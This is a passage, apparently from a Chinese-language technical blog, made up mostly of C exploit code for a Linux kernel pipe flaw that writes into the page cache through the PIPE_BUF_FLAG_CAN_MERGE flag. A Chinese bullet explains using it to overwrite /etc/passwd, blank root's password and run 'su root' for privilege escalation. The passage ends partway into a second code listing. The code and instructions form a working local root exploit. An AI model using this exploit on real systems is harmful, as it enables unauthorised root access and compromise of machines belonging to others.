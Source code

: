       123.     }
    
      124.     if (nbytes == 0) {
    
      125.         fprintf(stderr, "short splice\n");
    
      126.         return EXIT_FAILURE;
    
      127.     }
    
      128.   129.     /* the following write will not create a new pipe_buffer, but
    
      130.        will instead write into the page cache, because of the
    
      131.        PIPE_BUF_FLAG_CAN_MERGE flag */
    
      132.     nbytes = write(p[1], data, data_size);
    
      133.     if (nbytes < 0) {
    
      134.         perror("write failed");
    
      135.         return EXIT_FAILURE;
    
      136.     }
    
      137.     if ((size_t)nbytes < data_size) {
    
      138.         fprintf(stderr, "short write\n");
    
      139.         return EXIT_FAILURE;
    
      140.     }
    
      141.     return EXIT_SUCCESS;
    
      142. }
    
    
    

![](https://gitee.com/fuli009/images/raw/master/public/20230714175314.png)

  * 通过漏洞覆写`/etc/passwd`密码文件，将 root 帐号密码位`x`置空，即`root:x:0:0:root:/root:/bin/bash`改为`root::0:0:root:/root:/bin/bash`，然后用`su root`实现无密码切换到 root 帐号，从而实现提权。

    
          1. #define _GNU_SOURCE
    
      2. #include <unistd.h>
    
      3. #include <fcntl.h>
    
      4. #include <stdio.h>
    
      5. #include <stdlib.h>
    
      6. #include <string.h>
    
      7. #include <sys/stat.h>
    
      8. #include <sys/user.h>
    
      9.   10. #ifndef PAGE_SIZE
    
      11. #define PAGE_SIZE 4096
    